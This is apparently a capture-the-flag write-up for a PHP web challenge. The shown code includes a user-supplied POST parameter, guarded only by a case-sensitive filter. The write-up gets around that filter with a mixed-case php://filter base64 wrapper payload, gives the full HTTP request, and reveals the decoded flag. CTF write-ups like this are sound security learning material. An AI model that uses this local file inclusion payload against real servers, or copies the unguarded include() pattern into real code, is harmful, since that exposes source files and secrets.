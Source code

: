 ### Question

> Name: Local Fan Interaction .. ?-
> Couldn't get the question and CTF ended :\
> Points: 500
> Solves: ~40

### Solution

- It's a nice PHP code

- ```php
  <?php
  //Conifg
  require("flag.php");
  highlight_file(__FILE__);
  
  //Juicy part
  if(isset($_POST["hmmm"])){
      $inp=preg_replace("/filter/","Kahoul is supervising",$_POST["hmmm"]);
      include($inp);
  }
  ?>
  ```

- ![](./assets/2022-11-26-20-56-18-image.png)

- We know there is a `hmmm` POST param that should have the payload

- We know it's a `PHP Wrappers` trick of type `filter` from the regex replace

- The regex is vuln because it's case sensitive so we if type in `/Filter/` we can bypass it

- A payload from the Internet we found `pHp://FilTer/convert.base64-encode/resource=index.php`

- We just need to change it to `flag.php` as the code has that file required so the flag is probably there

- New payload `pHp://FilTer/convert.base64-encode/resource=flag.php`

- Burp Suite all-in-one payload

- ```http
  POST / HTTP/1.1
  Host: 54.221.24.51
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  hmmm=pHp://FilTer/convert.base64-encode/resource=flag.php
  ```

- This will print for us the flag in base64, decode it :)

- ![](./assets/2022-11-26-20-56-35-image.png)

- Base64:`PD9waHAKJGZsYWc9IkZMQUd7UmVhbGx5X1NtNHJ0X1lvdV80cjN9IjsKPz4K`

- Decoded:

- ```php
  <?php
  $flag="FLAG{Really_Sm4rt_You_4r3}";
  ?>
  ```

- Flag: `FLAG{Really_Sm4rt_You_4r3}`
